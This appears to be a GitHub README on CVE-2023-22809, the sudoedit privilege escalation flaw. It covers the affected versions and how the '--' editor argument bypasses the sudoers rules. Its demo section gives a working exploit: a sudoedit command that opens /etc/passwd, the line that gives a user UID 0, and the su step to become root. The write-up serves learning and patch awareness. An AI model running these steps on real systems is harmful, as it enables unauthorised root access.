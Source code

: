 ## [CVE-2023-22809: Sudoedit Privilege Escalation Vulnerability](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf)

**Discovered by:** [Matthieu Barjole](https://fr.linkedin.com/in/matthieu-barjole-bb8790309) and [Victor Cutillas](https://www.linkedin.com/in/victor-c-security/) (from [Synacktiv](https://www.synacktiv.com/en))

**Affected Versions:** Sudo ```1.8.0``` - ```1.9.12p1```

**Component:** ```sudoedit``` function in Unix systems
<br>
<br>

## Vulnerability Overview
* Permits escalation of privileges by overcoming the ```sudoers``` configuration.
* Can be exploited by anyone granted ```sudoedit``` rights.
* Enables modification of files that the policy would otherwise block.
<br>

## Exploitation Details
* Triggered when the user-specified editor includes a ```--``` argument.
* The ```--``` causes the sudo front-end to treat all following inputs as file paths.
* This bypasses normal checks and restrictions defined in the sudoers configuration.
<br>

## Impact
* Malicious users can gain unauthorized access to sensitive files.
* Potential for root-level privilege escalation.
<br>

## Demo

On our Ubuntu machine, verify the ```sudo``` version using this command:
```
sudo -V
```
<br>
<img width="413" height="145" alt="image" src="https://github.com/user-attachments/assets/3f8c9e06-1bcd-4bc9-895c-994c43377407" />
<br>

We can see on the image above that the sudo version is ```1.9.9``` which is within the ```CVE-2023-22809```.
<br>

If we type ```sudo -l```, we can see the commands that we have access to. Based on the image below, we can see that we have access full access to ```sudoedit```.
<br>
<img width="1417" height="109" alt="image" src="https://github.com/user-attachments/assets/dfc246b7-a80b-4183-ba14-5a33e73acd14" />
<br>

Next, edit a privileged file (```/etc/passwd```) to escalate the compromised compromised user to root with the below command. Then copy root line entry(```/etc/passwd```) to paste and modify compromised user's line entry still on the same file.
```
EDITOR='nano -- /etc/passwd' sudoedit /etc/motd
```
<br>

At the very bottom, replace the last line with the following:
```
<USERNAME>:x:0:0:root:/root:/bin/bash
```
<br>

To verify, we can use the ```tail``` command:
```
tail -1 /etc/passwd
```
<br>
<img width="402" height="65" alt="image" src="https://github.com/user-attachments/assets/636d9ea3-fbd0-4aaf-b5ce-cd176006a3ea" />
<br>

Now, let's try and see if we've successfully escalated the compromised user to ```root``` by using below command(Enter password if prompted).
```
su <USERNAME>
```
<br>
<img width="431" height="136" alt="image" src="https://github.com/user-attachments/assets/6c19aaa9-a5a8-4356-bf7d-da7bcaf7fdc6" />
<br>

